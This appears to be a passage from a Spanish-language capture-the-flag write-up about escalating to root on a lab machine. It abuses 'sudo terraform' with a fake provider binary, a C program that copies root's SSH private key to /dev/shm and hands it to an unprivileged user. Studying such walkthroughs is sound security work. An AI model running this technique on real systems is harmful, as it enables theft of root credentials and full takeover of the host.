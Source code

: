 ```c
#include<stdlib.h>

int main () {
    system("cp /root/.ssh/id_rsa /dev/shm/root_id_rsa");
    system("chown jeremy:jeremy /dev/shm/root_id_rsa");
    system("chmod 600 /dev/shm/root_id_rsa");
    return 0;
}
```

> **Nota:** El nombre del ejecutable debe ser exactamente `terraform-provider-examples`, pues es `examples` el `nombre del plugin` que se va a buscar desde el main.tf.

```bash
gcc binario.c -o terraform-provider-examples
sudo TF_CLI_CONFIG_FILE=/dev/shm/provider terraform -chdir=/opt/examples apply
```

![Terraform plugin](images/previous_terraform_plugin.PNG)

El plugin no lo reconoce pues `falla al negociar` el handshake inicial del protocolo `go-plugin`, pero eso no es problema pues `el binario ya ha sido lanzado como root`.

![Terraform root_id_rsa](images/previous_terraform_root_id_rsa.PNG)
![Terraform SSH root](images/previous_terraform_root_ssh_1.PNG)
![Terraform SSH root](images/previous_terraform_root_ssh_2.PNG)
